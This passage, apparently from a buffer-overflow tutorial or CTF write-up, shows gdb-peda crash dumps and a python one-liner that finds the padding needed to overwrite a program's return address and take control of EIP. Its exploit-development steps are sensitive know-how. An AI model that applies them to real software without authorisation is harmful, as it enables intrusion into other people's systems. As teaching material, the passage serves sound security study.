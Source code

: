 ```bash
[----------------------------------registers-----------------------------------]
EAX: 0x40 ('@')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd04c ('A' <repeats 64 times>, "\201>\337\367\001")
EDX: 0x40 ('@')
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd070 ('A' <repeats 28 times>, "\201>\337\367\001")
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd070 ('A' <repeats 28 times>, "\201>\337\367\001")
0004| 0xffffd074 ('A' <repeats 24 times>, "\201>\337\367\001")
0008| 0xffffd078 ('A' <repeats 20 times>, "\201>\337\367\001")
0012| 0xffffd07c ('A' <repeats 16 times>, "\201>\337\367\001")
0016| 0xffffd080 ('A' <repeats 12 times>, "\201>\337\367\001")
0020| 0xffffd084 ("AAAAAAAA\201>\337\367\001")
0024| 0xffffd088 ("AAAA\201>\337\367\001")
0028| 0xffffd08c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ 
```

That looks more like it! Notice how the debugger prints the address that it
segfaulted on, right there on the bottom of the snippet. You should be looking
for the two lines `Stopped reason: SIGSEGV` and `0x41414141 in ?? ()`, where
the first tells us it stopped due to a segfault (SIGSEGV), and the last prints
the address making the program overflow. We overwrote the return address on the 
stack with A's, making
the program to try continuing to that address. But _0x41414141_ isn't a valid
memory address! It is just the hexadecimal representation of four A's!

A nice tip is to add four B's at the end of the A's. Then we know the exact 
amount of padding when gdb segfaults having _0x42424242_ as the memory 
address it tried to return to. Then we also know that we may replace the four
bytes for the B's with the four bytes of the replacement return address. 
By trying a little, we finally get the right padding. 

```bash
gdb-peda$ r <<< `python -c 'print "A" * 64 + "BBBB"'`
```

In which gdb outputs the following:

```bash
[----------------------------------registers-----------------------------------]
EAX: 0x25 ('%')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd05c ('A' <repeats 32 times>, "BBBB\nY\376\367\240\320\377\377")
EDX: 0x40 ('@')
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd080 --> 0xf7fe590a (and    al,0x2c)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd080 --> 0xf7fe590a (and    al,0x2c)
```